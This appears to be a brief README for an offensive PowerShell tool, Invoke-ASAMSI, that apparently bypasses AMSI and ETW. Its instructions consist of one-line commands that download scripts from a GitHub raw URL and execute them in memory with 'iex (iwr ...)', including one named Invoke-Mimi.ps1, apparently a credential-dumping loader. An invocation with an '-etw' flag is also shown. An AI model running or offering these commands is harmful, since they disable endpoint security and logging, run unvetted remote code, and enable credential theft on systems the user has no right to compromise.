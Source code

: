 # Invoke-ASAMSI

# Instructions

```

```iex (iwr -UseBasicParsing https://raw.githubusercontent.com/drfalcon23/Invoke-AMSI/refs/heads/main/Invoke-ASAMSI.ps1)

```Invoke-ASAMSI -etw -v

```iex (iwr -UseBasicParsing https://raw.githubusercontent.com/drfalcon23/Invoke-AMSI/refs/heads/main/Invoke-Mimi.ps1)
